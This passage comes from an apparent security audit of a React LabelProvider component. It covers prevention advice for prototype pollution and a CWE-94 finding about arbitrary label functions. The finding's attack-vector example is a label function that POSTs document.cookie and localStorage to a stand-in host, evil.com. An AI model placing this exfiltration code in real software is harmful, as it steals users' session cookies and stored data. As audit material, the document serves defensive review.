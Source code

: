 **Prevention Best Practices:**
1. Use `Object.create(null)` to create objects without prototype inheritance
2. Validate and sanitize all object keys before assignment
3. Implement a whitelist of allowed label keys
4. Add runtime validation to reject dangerous key names
5. Use TypeScript's strict mode and proper typing

### 3. Arbitrary Function Execution via Label Functions (MEDIUM)

**Location:** `/src/tedi/providers/label-provider/label-provider.tsx:132-134`

**CWE Classification:** CWE-94 (Improper Control of Generation of Code)

**Code Snippet:**
```tsx
if (typeof label === 'function') {
  return label(...args);
}
```

**Description:**
The `getLabel` function accepts and executes arbitrary functions provided by developers through the `labels` prop. While this is by design for parameterized labels (e.g., pluralization), it creates a code execution vector if an attacker can control label definitions.

The function is executed with user-provided arguments, potentially allowing:
1. Execution of malicious code
2. Access to the React component closure scope
3. Side effects like network requests or DOM manipulation

**Attack Vector:**
```typescript
// Malicious label with side effects
<LabelProvider
  labels={{
    'custom.label': {
      en: (count) => {
        // Exfiltrate data
        fetch('https://evil.com/log', {
          method: 'POST',
          body: JSON.stringify({
            cookies: document.cookie,
            localStorage: { ...localStorage },
            count: count
          })
        });
        return `Count: ${count}`;
      }
    }
  }}
>
```

**Impact Assessment:**
- **Confidentiality:** HIGH - Can access and exfiltrate sensitive data
- **Integrity:** HIGH - Can modify application state and behavior
- **Availability:** MEDIUM - Could cause performance issues or crashes
- **Scope:** Limited to developers who can provide custom labels
